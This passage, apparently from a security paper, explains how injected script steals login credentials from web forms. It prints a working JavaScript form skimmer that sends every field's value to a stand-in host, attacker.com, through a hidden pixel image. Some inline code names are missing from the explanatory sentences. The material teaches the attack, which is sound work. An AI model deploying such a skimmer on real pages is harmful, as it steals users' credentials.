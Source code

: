 An HTML form provides a page with data entry fields that allow a user to enter text such as a username and password.
Once a user submits the form, the browser sends the data to the server.
Virtually all web applications rely on login fields to authenticate their users.
If an attacker manages to inject code into a web application that contains a login form, the attacker's script can read a user's credentials and send them to an attacker-controlled server.
Later, the attacker may use the stolen credentials to impersonate users of the web service.

\begin{jscode}
// place hidden image on the page
var pixel = "<img src=\"http://www.attacker.com/pixel.png\"" +
            "id=\"pixel\" />";
document.write(pixel);

function stealFormData(type, value) {
  var payload = "url=" + document.domain + "&" + type + "=" + value;
  document.getElementById("pixel").src =
      "http://www.attacker.com/pixel.png?" + payload;
}

// add stealFormData to all forms on page
for (var i = 0; i < document.forms.length; i++) {
  for (var j = 0; j < document.forms[i].elements.length; j++) {
    var elem = document.forms[i].elements[j];
    elem.addEventListener("blur", // triggered when element loses focus
           function() { stealFormData(this.type, this.value) }, false);
  }
}
\end{jscode}

\autoref{list:fieldinfo} shows exploit code an attacker might use to steal credentials from the login form of a web page.
The attack script first loads an image () supplied by a server under the attacker's control.
The attacker designs the image to avoid perceptible changes in page layout.
Few users will notice the placement of a single transparent pixel, but the attacker can use the GET request as a channel to steal confidential page data whenever the image is reloaded from the server.

The attacker knows users will fill out the form and registers () a -event handler on all forms elements on the page.
When a form element loses focus it triggers a call to the -event handler.
The handler,  defined on , first encodes information about the page domain and contents of the form element which triggered the event in the  variable.
Then it updates the  attribute of the image with a URL containing the payload.
This update causes the browser to automatically reload the image, sending the sensitive information in the URL of the image request.

